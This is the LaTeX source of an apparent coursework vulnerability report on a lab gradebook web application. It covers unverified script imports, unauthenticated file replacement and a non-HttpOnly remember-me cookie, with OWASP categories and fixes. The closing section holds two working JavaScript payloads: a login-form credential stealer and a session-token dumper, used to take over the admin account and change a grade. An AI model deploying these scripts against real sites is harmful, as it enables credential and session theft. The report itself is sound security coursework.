% !TeX program = LuaLaTeX
\documentclass[parskip=half]{scrartcl}

\input{../name}

\usepackage{listings}
\usepackage{lstautogobble}

\usepackage{xcolor}
\usepackage{hyperref}
\hypersetup{
    colorlinks,
    linkcolor={red!50!black},
    citecolor={blue!50!black},
    urlcolor={blue!80!black}
}

\usepackage{graphicx}
\graphicspath{ {./images/} }

\usepackage{datetime2}

% Font Stuff

\usepackage{microtype}
\usepackage{fontspec}
\usepackage{unicode-math}

% Stix fonts should be auto-installed by the TeX package manager
\setmainfont{Georgia}
\setmonofont{Source Code Pro}
\setmathfont{Stix Two Math} 

% Stylistically a good match, and licensed under the Open Font License
\setsansfont{Helvetica Neue}

\newcommand{\figref}[1]{Figure~\ref{#1}}

% Code stuff

% https://github.com/ghammock/LaTeX_Listings_JavaScript_ES6
\lstdefinelanguage[ECMAScript2015]{JavaScript}[]{JavaScript}{
  morekeywords=[1]{await, async, case, catch, class, const, default, do,
    enum, export, extends, finally, from, implements, import, instanceof,
    let, static, super, switch, throw, try},
  morestring=[b]` % Interpolation strings.
}

\lstdefinelanguage{JavaScript}{
  morekeywords=[1]{break, continue, delete, else, for, function, if, in,
    new, return, this, typeof, var, void, while, with},
  % Literals, primitive types, and reference types.
  morekeywords=[2]{false, null, true, boolean, number, undefined,
    Array, Boolean, Date, Math, Number, String, Object},
  % Built-ins.
  morekeywords=[3]{eval, parseInt, parseFloat, escape, unescape},
  sensitive,
  morecomment=[s]{/*}{*/},
  morecomment=[l]//,
  morecomment=[s]{/**}{*/}, % JavaDoc style comments
  morestring=[b]',
  morestring=[b]"
}[keywords, comments, strings]


\lstalias[]{ES6}[ECMAScript2015]{JavaScript}

% Requires package: color.
\definecolor{mediumgray}{rgb}{0.3, 0.4, 0.4}
\definecolor{mediumblue}{rgb}{0.0, 0.0, 0.8}
\definecolor{forestgreen}{rgb}{0.13, 0.55, 0.13}
\definecolor{darkviolet}{rgb}{0.58, 0.0, 0.83}
\definecolor{royalblue}{rgb}{0.25, 0.41, 0.88}
\definecolor{crimson}{rgb}{0.86, 0.8, 0.24}

\lstdefinestyle{JSES6Base}{
  backgroundcolor=\color{white},
  basicstyle=\ttfamily,
  breakatwhitespace=false,
  breaklines=false,
  captionpos=b,
  columns=fullflexible,
  commentstyle=\color{mediumgray}\upshape,
  emph={},
  emphstyle=\color{crimson},
  extendedchars=true,  % requires inputenc
  fontadjust=true,
  %frame=single,
  identifierstyle=\color{black},
  keepspaces=true,
  keywordstyle=\color{mediumblue},
  keywordstyle={[2]\color{darkviolet}},
  keywordstyle={[3]\color{royalblue}},
  numbers=left,
  numbersep=5pt,
  numberstyle=\tiny\color{black},
  rulecolor=\color{black},
  showlines=true,
  showspaces=false,
  showstringspaces=false,
  showtabs=false,
  stringstyle=\color{forestgreen},
  tabsize=2,
  title=\lstname,
  upquote=true  % requires textcomp
}

\lstdefinestyle{JavaScript}{
  language=JavaScript,
  style=JSES6Base
}
\lstdefinestyle{ES6}{
  language=ES6,
  style=JSES6Base
}

\begin{document}

{\LARGE \textbf{\textsf{Vulnerability Report (HW3)}}}
\vspace*{1em}

\textbf{Date:} \today

\textbf{Author:} \docauthor

\textbf{Student code:} \texttt{\studentcode}

Notes:
\begin{enumerate}
    \item The actual student code is not present in the web application
    database. I have assumed the student code \texttt{C18947} for this task.

    \item This task suffers from the same lack of server-side data validation
    as HW2 did. This vulnerability is however not re-reported here for brevity.
    
    \item I also do not reproach HTTP availability, since this is (I assume)
    for operational convenience.
\end{enumerate}

This report has $9$ pages.

\section*{Vulnerability 1}\label{vuln1}

\textbf{Risk level.} critical

The integrity of some resource files fetched on the client-side is not
verified, allowing the execution of malicious imported code.

\textbf{Risk.} An attacker may be able to modify or replace imported JavaScript
code destined to run client-side, and therefore execute malicious code in a
user's browser. For example, the attacker could replace the script with a 
keylogger and recover a user's log-in credentials.

The attack vector is data integrity failure. Namely, the integrity of a
JavaScript file which is imported by the client-side HTML is not verified. As
such, the browser blindly trusts the imported code.

More specifically, the HTML template file \texttt{base.html} does not make
use of the integrity attribute when importing the JavaScript file
\texttt{fancy.js} on line $10$ (\figref{fig:code:lackverif}).

\begin{figure}[h]
    \centering
    
\includegraphics[width=\textwidth]{lackverif}
    \caption{Unsafe import of JavaScript}
    \label{fig:code:lackverif}
\end{figure}

Potentially applicable OWASP categories are:
\begin{enumerate}
  \item \texttt{A08:2021} -- Software and Data Integrity Failures
  %\item \texttt{A04:2021} -- Insecure Design
\end{enumerate}

\textbf{Proof of Concept.}

An attack can be carried out in $3$ steps:
\begin{enumerate}
    \item replace\footnotemark{} the imported JavaScript code with malicious
    code (see Listing~\ref{lst:keylogger}),
    \footnotetext{Explained in detail in Vulnerability 2.}
    \item wait for the admin bot to visit the website, the malicious code will
    then be ran by the browser,
    \item reap the benefits of the malicious code execution.
\end{enumerate}

In our case, since the malicious script dumped the credentials of the
administrator bot into the screenshot (\figref{fig:displaypwd}), we may simply
log into the administrator's account (\figref{fig:adminlogin}), and update our
grade (\figref{fig:updategradeadmin}).

\begin{figure}[h]
    \centering
    
\includegraphics[width=\textwidth]{display_pwd}
    \caption{Exfiltrate credentials through screenshot}
    \label{fig:displaypwd}
\end{figure}

\begin{figure}[h]
    \centering
    
\includegraphics[width=\textwidth]{adminlogin}
    \caption{Log in as administrator}
    \label{fig:adminlogin}
\end{figure}

\begin{figure}[h]
    \centering
    
\includegraphics[width=\textwidth]{update_grade}
    \caption{Update grade as administrator}
    \label{fig:updategradeadmin}
\end{figure}

\textbf{Recommendations.} All resources that are imported on the client side
should be verified for their integrity, preferably using builtin means, if
possible.

For the given source code, the \texttt{<script>} element should take the
additional \texttt{integrity} attribute that assumes the integrity value of the
validated script.

\clearpage
\newpage

\section*{Vulnerability 2}\label{vuln2}

\textbf{Risk level.} critical

Some resource files can be replaced/updated on the server side without any
validation.

\textbf{Risk.} An attacker may be able to arbitrarily modify or replace
resource files on the server-side, which are used by the running application
itself. Therefore, the attacker can influence some behaviour of a live
application.

The attack vector stems from insecure system design. Namely, a system,
particularly a production system, should not allow the update of resource
files, particularly of executable code files of a live application outside of
planned deployment. This ``functionality'' being available without user
authentication and action authorisation only worsens the vulnerability.

Potentially applicable OWASP categories are:
\begin{enumerate}
    \item \texttt{A04:2021} -- Insecure Design
    \item \texttt{A07:2021} -- Identification and Authentication Failures%\footnote{\url{https://owasp.org/Top10/A07_2021-Identification_and_Authentication_Failures/}}
    \item \texttt{A01:2021} -- Broken Access Control%\footnote{\url{https://owasp.org/Top10/A01_2021-Broken_Access_Control/}}%\footnote{\url{https://owasp.org/Top10/A04_2021-Insecure_Design/}}
\end{enumerate}

\textbf{Proof of Concept.}

It suffices to replace the \texttt{fancy.js} JavaScript file using a
\texttt{PUT} request, as shown in \figref{fig:submitjs}.

\begin{figure}[h]
    \centering
    
\includegraphics[width=\textwidth]{submit_js}
    \caption{Submit JavaScript code}
    \label{fig:submitjs}
\end{figure}

\textbf{Recommendations.} Do not allow unauthenticated and unauthorised updates
to server-side files. Do not allow the hot replacement/update of files used by
an application in production without proper, supervised deployment. If such
functionality is absolutely necessary, there must be strong requester
authentication in place, and authorisation must be verified for all updates.

\clearpage
\newpage

\section*{Vulnerability 3}\label{vuln3}

\textbf{Risk level.} high

An authentication token is accessible to client-side JavaScript.

\textbf{Risk.} If an attacker is able to get arbitrary JavaScript to be run
when another user visits the website (e.g., such as in Vuln. 1, or by
XSS), then the attacker can steal the ``remember me" token, and log in as the
user.

The attack vector stems from unnecessarily lax configuration. Namely, a
security which can be used for user authentication is accessible to JavaScript,
for seemingly no good reason. Some other attack vector must exist for script
delivery, however, hence the slightly lower risk level.

Potentially applicable OWASP categories are:
\begin{enumerate}
    \item \texttt{A05:2021} -- Security Misconfiguration
\end{enumerate}

\textbf{Proof of Concept.}

An attack can be carried out in $4$ steps:
\begin{enumerate}
    \item replace the imported JavaScript code with malicious
    code which sets and dumps the \texttt{remember\_token} cookie
    (see Listing~\ref{lst:refresher}),
    \item wait for the admin bot to visit the website, the malicious code will
    then be ran by the browser,
    \item fetch the token from the screenshot using OCR
    (\figref{fig:tokendisplay}),
    \item re-create the cookie to log-in (\figref{fig:remhijack}).
\end{enumerate}

\begin{figure}[h]
    \centering
    
\includegraphics[width=\textwidth]{token_display}
    \caption{Exfiltrate ``remember me'' token through screenshot}
    \label{fig:tokendisplay}
\end{figure}

\begin{figure}[h]
    \centering
    
\includegraphics[width=\textwidth]{remember_hijack}
    \caption{Access administrator account using ``remember me'' token}
    \label{fig:remhijack}
\end{figure}

\textbf{Recommendations.} Configurations should be made following the least
access principle. That is, data access should be restricted as much as
possible. In the current case, the \texttt{HttpOnly} attribute of the
\texttt{remember\_token} cookie should be set to true.

\clearpage
\newpage

\section*{Malicious Scripts}

\begin{lstlisting}[style=ES6, caption={Credential stealer script},
    label={lst:keylogger}]
const pathname = window.location.pathname;

const payload = async () => {
    document.documentElement.innerHTML = document.cookie;
}

const submitForm = event => {
    const email = document.querySelector("[name='email']");
    const pwd = document.querySelector("[name='password']");
    document.cookie = email.value + "=" + pwd.value;
}

if (pathname === "/login") {
    window.onload = () => {
        const form = document.querySelector("form");
        form.onsubmit = submitForm.bind(form);
    }
}

if (pathname === "/gradebook") payload();
\end{lstlisting}

The credential stealer script places creates a cookie from the email and
password entered into the log-in form by the administrator bot, and then
prints the cookie's contents into the gradebook page. When the bot takes a
screenshot of this page, the screenshot will contain the dumped credentials.

\clearpage

\begin{lstlisting}[style=ES6, caption={Refresh token stealer script},
    label={lst:refresher}]
const pathname = window.location.pathname;

const payload = async () => {
    let style = "font-family: monospace;";
    style += "max-width: 300px;";
    style += "word-wrap: break-word;";
    let str = `<p style="${style}">`;
    str += document.cookie + "</p>";
    document.documentElement.innerHTML = str;
}
    
if (pathname === "/login") {
    window.onload = () => {
        const chk = document.querySelector("[name='remember']");
        chk.checked = true;
    }
}
    
if (pathname === "/gradebook") payload();
\end{lstlisting}

The refresh token stealer script checks the ``remember me" option on the
administrator bot's browser, and so the remember token is stored in a cookie.
The script then dumps the remember token as in the credential stealer example.
This cookie is dumped since it does not have \texttt{HttpOnly} set.

We then recover the token's value using OCR and re-create the cookie. When the
server receives this cookie, it thinks we are the administrator and
authenticates our session.

\end{document}
